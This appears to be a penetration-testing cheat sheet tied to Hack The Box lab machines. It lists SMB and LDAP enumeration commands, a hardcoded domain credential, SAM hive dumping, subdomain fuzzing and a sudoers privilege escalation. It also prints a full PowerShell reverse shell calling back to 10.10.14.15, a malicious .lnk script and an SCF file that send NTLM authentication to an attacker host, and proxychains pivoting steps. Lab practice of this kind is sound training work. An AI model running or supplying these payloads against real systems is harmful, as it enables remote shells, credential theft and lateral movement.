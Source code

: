 #### SMB:
  * ```smbclient -N -L //10.10.11.35```
  * ```netexec smb 10.10.11.35 -u 'a' -p '' --shares```
  * ```smbclient -U Guest //10.10.11.35/share```
  * ```netexec smb 10.10.11.35 -u Guest -p '' --rid-brute```
  * ```netexec smb 10.10.11.35 -u username.txt -p 'password123!'```

### LDAP:
  * ```ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'```
  * ```ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'```

#### Powershell:
  * ```Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue```
  * ```Get-Service | Where-Object { $_.Status -eq 'Running' }```

#### CMD:
  * Name and account for all services:
    ```wmic service get name,startname```

  * started services only:
    ```wmic service where started=true get  name, startname```

  * services with specific pattern in name:
    ```wmic service where 'name like "%sql%"' get  name, startname```

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system

#### Subdomain Enumeration:
  * ```ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18```

#### Directory Enumeration
  * ```gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

#### Symlink Techniques:
  * ```ln -s /etc/sudoers /home/john/sudoerss```

#### Manipulating sudoers file:
  * ```vi /etc/sudoers```
    * ```john ALL=(ALL:ALL) NOPASSWD: ALL```
   
#### Hash cracking:
  * john john.hash -w=/usr/share/wordlists/rockyou.txt

#### SSH local port forwarding:
  * Service in running on victim machine 127.0.0.1:8080 and can only be accessed via localhost
    * kali-Attacker$ ssh -L 0.0.0.0:9999:127.0.0.1:PORT john@VICTIM-IP
    * kali-Attacker$ curl -I http://127.0.0.1:9999
   
#### Exploiting Chrome Debugger:
  * https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/

#### Powershell Reverse shell:
```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
#### Capturing Hashes with a Malicious .lnk File
```
# Erstellt ein neues COM-Objekt, das die Windows Shell steuert (ermöglicht die Erstellung von Verknüpfungen, Ausführung von Programmen usw.).
$objShell = New-Object -ComObject WScript.Shell

# Erstellt eine neue Verknüpfung mit dem Namen "legit.lnk" im Verzeichnis "C:\".
$lnk = $objShell.CreateShortcut("C:\legit.lnk")

# Setzt den Zielpfad der Verknüpfung auf einen Netzwerkpfad. Dieser zeigt auf einen entfernten Server (Angreifer-Server),
# der mit einer Datei "@pwn.png" erreichbar ist. Beim Öffnen oder Vorschauen dieser Verknüpfung wird versucht, auf diesen Pfad zuzugreifen,
# was eine Authentifizierungsanforderung (z. B. NTLM-Auth) an den Angreifer-Server auslösen kann.
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"

# Setzt den Stil des Fensters, das beim Ausführen des Ziels erscheint. Der Wert "1" bedeutet, dass das Fenster in normaler Größe geöffnet wird.
$lnk.WindowStyle = 1

# Weist der Verknüpfung ein Symbol aus der Datei "shell32.dll" (eine Datei in Windows, die verschiedene Symbole enthält) zu.
# "3" steht für das Symbol, das aus dieser Datei verwendet wird (meist ein Standardordner-Symbol).
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"

# Setzt eine Beschreibung für die Verknüpfung. Diese Beschreibung wird angezeigt, wenn der Benutzer mit der Maus über die Verknüpfung fährt.
# Hier wird darauf hingewiesen, dass ein Besuch des Verzeichnisses, in dem die Verknüpfung gespeichert ist, eine Authentifizierungsanforderung auslösen kann.
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."

# Weist der Verknüpfung eine Tastenkombination (Strg + Alt + O) zu, mit der der Benutzer die Verknüpfung schnell ausführen kann.
$lnk.HotKey = "Ctrl+Alt+O"

# Speichert die erstellte Verknüpfung (legit.lnk) auf der Festplatte.
$lnk.Save()
```
#### SCF on a File Share
```[Shell]
Command=2
IconFile=\\103.103.143.33\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
#### Pivoting, Tunneling, and Port Forwarding
 #####
 * Dynamic port forwarding
 ```ssh -D 9050 alreadyCompromisedMachine@10.129.202.64```
 ##### 
 * edit /etc/proxychains.conf
   
 ```socks4 	127.0.0.1 9050
    proxychains nmap -v -sn 172.16.5.1-200
    proxychains nmap -v -Pn -sT 172.16.5.19
    proxychains msfconsole
    search rdp_scanner
    proxychains xfreerdp /v:172.16.5.19 /u:admin /p:pass@123```
 
